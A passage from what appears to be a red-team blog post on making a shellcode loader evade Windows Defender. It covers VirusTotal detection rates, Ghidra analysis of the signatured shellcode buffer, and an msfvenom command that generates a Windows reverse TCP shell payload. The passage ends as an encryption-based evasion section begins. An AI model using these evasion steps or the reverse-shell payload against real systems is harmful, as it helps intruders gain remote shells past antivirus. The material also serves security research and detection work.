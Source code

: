 The article got a _staggering_ 3/68 or **4.4%** detections, this included Windows Defender, of course.

![msf2](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LN_sILlRtO9ChAFtFwH%2F-LN_uK2_OHmB2U0S10J0%2Fmsf-vt4.png?alt=media&token=44c0be3c-f17a-4a8d-a18c-9b25bd6eb4a8)

My loader was not so fortunate with 32/71 or **45.0%** detections, which included Windows Defender.

![msf2](https://i.gyazo.com/07e7726345053880866f4c328a366141.png)

If you were paying attention to the Virus Total scans, you'd very quickly see this.

![date](https://i.gyazo.com/d0dbc1535bf0f7e75c541f647edb6316.png)

This article was posted and the scans were from around ~6 years ago (has it really been **SIX** years??). Since then, modern antivirus has gotten much _much_ better at detecting shellcode loaders. 

My guess is that AV back then was not very familiar with detecting malicious PIC, and simple shellcode loaders were sufficient.

### Back to the Present
Let's try to find out what Windows Defender is detecting in this loader.
![gocheck](https://i.gyazo.com/5c89bbcf0730489a1b485061a870bfe0.png)
Pop this into [Ghidra](https://github.com/NationalSecurityAgency/ghidra) and start disassembling our loader!

![ghidra1](https://i.gyazo.com/761c604ee241ae9c1c63287ff3f6a6e4.png)

We didn't strip the binary when compiling, so it's pretty easy for us to find the main function. Let's take reference from our loader and start renaming the variables.

![ghidra2](https://i.gyazo.com/c99049220356dd0a9bb76d357e30e0cf.png)

Since Windows Defender signatured us at an offset of **0x26CF**, we can jump to that address (0x0 + 0x26CF).

![0x26CF](https://i.gyazo.com/6beca358a87dfb0bbb6b4e38941d9d13.png)

This section of memory exists in the `.data` section and exists after the symbol `buf`.

![buf](https://i.gyazo.com/dd3230dbcf9bb2358ef8533a3eb22246.png)

If you remembered earlier, `buf` contains our msfvenom-generated shellcode. It seems like we're getting flagged on our shellcode when we drop to disk, let's work on extending their loader to be more evasive!

### Evading Static Analysis
Since our shellcode is being signatured, the next logical step is to include some encryption.

```bash
┌──(kali㉿kali)-[~/bruh]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f raw > shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
```
